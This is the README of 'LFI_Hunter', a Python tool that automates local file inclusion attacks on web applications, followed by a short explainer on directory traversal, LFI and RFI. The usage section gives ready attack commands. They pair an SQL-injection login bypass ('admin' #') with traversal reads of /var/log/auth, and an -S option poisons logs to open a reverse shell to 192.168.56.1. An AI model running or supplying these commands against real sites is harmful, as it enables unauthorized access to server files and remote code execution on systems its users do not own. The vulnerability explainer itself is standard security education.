


# LFI_Hunter

##  what is LFT_Hunter ?
* LFT_Hunter tool help To atoumation file inclusion attack 
* read file and get the file in your local machine
* filter php base64 and auto decoded the data
* auto Injaction log file and get reverseshell "if can read log file"
* work with authentication login
* support not authentication as well 
#### LFI_Hunter modes 
   - Aggressive mode 
   - Burte Fource mode
   - read file mode
##  what is file inclusion vulnerability ?
* A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time. This issue is caused when an application builds a path to executable code using an attacker-controlled variable in a way that allows the attacker to control which file is executed at run time. A file include vulnerability is distinct from a generic directory traversal attack, in that directory traversal is a way of gaining unauthorized file system access, and a file inclusion vulnerability subverts how an application loads code for execution. Successful exploitation of a file inclusion vulnerability will result in remote code execution on the web server that runs the affected web application. An attacker can use remote code execution to create a web shell on the web server, which can be used for website defacement.
### Types of Inclusion
   #### A directory traversal (or path traversal) 
-  attack exploits insufficient security validation or sanitization of user-supplied file names, such that characters representing "traverse to parent directory" are passed through to the operating system's file system API. An affected application can be exploited to gain unauthorized access to the file system. 
 #### Remote file inclusion
   - Remote file inclusion (RFI) occurs when the web application downloads and executes a remote file. These remote files are usually obtained in the          form of an HTTP or FTP URI as a user-supplied parameter to the web application.
 #### Local file inclusion
   - Local file inclusion (LFI)
 is similar to a remote file inclusion vulnerability except instead of including remote files, only local files i.e. files on the current server          can be included for execution. This issue can still lead to remote code execution by including a file that contains attacker-controlled data such as the web server's access logs. 
-----------------------------------------------------------------------------------

## More info :-
#### [file inclusion vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)
#### [Directory traversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack)
#### [File inclusion attacks](https://resources.infosecinstitute.com/topic/file-inclusion-attacks/)
-------------------------------------------------------------------------------------------
## Update:
* you can use  Vulnerable url as Domain name not only ip address  by use -D follow by Vulnerable url
* same like "https://www.anyDomain.com/index.php?file="
--------------------------------------------------------------------------------------------------
## How to use : 
* pip install mechanize
* git clone https://www.github.com/jac11/LFI_Hunter.git
* cd LFI_Hunter
* chmod +x LFI_Hunter.py
* ./LFI_Hunter -h
``` .     .____ _       __  __               .                
 /     /     |       |   |  ,   . , __   _/_     ___  .___ 
 |     |__.  | .---' |___|  |   | |'  `.  |    .'   ` /   \
 |     |     |       |   |  |   | |    |  |    |----' |   '
 /---/ /     /       /   /  `._/| /    |  \__/ `.___, /    
              @jacstory                                             

usage: LFI_Hunter.py [-h] -UV VULNURL [--auth] [-F FILELIST] -C COOKIE [-B] [-R READ] [-UF USERFORM] [-PF PASSFORM] [-P PASSWORD] [-LU LOGINURL] [-U USER] [-A] [-S SHELL]

Usage: [OPtion] [arguments] [ -w ] [arguments]

options:
  -h, --help            show this help message and exit
  -UV VULNURL, --Vulnurl VULNURL
                        url Targst web
  --auth                auth mautrd web
  -F FILELIST, --filelist FILELIST
                        read fron lfi wordlsit
  -C COOKIE, --Cookie COOKIE
                        Login sesion Cookie
  -B, --base64          decode filter php base64
  -R READ, --read READ  use to read file on the traget machine
  -UF USERFORM, --UserForm USERFORM
                        add name of the HTML Form Login User
  -PF PASSFORM, --PassForm PASSFORM
                        add name of the HTML Form Login Passord
  -P PASSWORD, --password PASSWORD
                        use specific Passowrd
  -LU LOGINURL, --loginurl LOGINURL
                        add login url for auth motted
  -U USER, --user USER  use specific username
  -A, --aggress         use aggressiv mode
  -S SHELL, --shell SHELL
                        to connent reverseshell
```
-------------------------------------------------------------------------------------------------
### Command read mode :-

```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password  --read /var/log/auth -S 192.168.56.1 -UF username -PF password
```
 *  < -C / --cookies >   cookie file' add the cookie in to file and give the LFI_Hunter the path of the cookie file\
 *  < -VU / --Vulnurl >  the url of the file url "http://web.com/file="
 *  < --auth >           login the web from terminal
 *  < -LU / --loginurl>  add login url 
 *  < -U / --user >      add user name
 *  < -P / --password >  add the password 
 *  < -R / --read >      add the name of the to read from the website true the directory traversal 
 *  < -S / --shell >     connect auto reverse shell " if can read log files same like "/var/log/auth.log or /proc/self/environ"
 *  < -UF / --USERFORM > if the field of username have different name so to can post in username give the field name after -UF 
 *  < -PF/ --PASSFORM  > if the field of password have different name so to can post in password give the fieldname after -PF
------------------------------------------------------------
### Command Agreesiv mode  :-
```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password  -A
```
*  < -A / --aggress>  to user aggressive mode "for this mode LFI_Hunter use some of payload and comparison between length  response come from web site
the big length mine have date we want read it '
### Command brute force mode  :-
```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password
```
* brute force mode try payload untill can read file if can read it LFI_Hunter will break and give you information about the file

### Notes :
* all mode can run with authentication or not authentication as per your situation
* Cookies it required
* < -F / --filelist > LFI_Hunter have default wordlist to use for Brute force if you try your own list give -F and the path of your list
* < -B /--baes64 > To use php filtter decode64 'LFI_Hunter will decode the data to asscii auto 

### ScreenShot
    
### Connect
* jac11devel@gmail.com
* thank you 
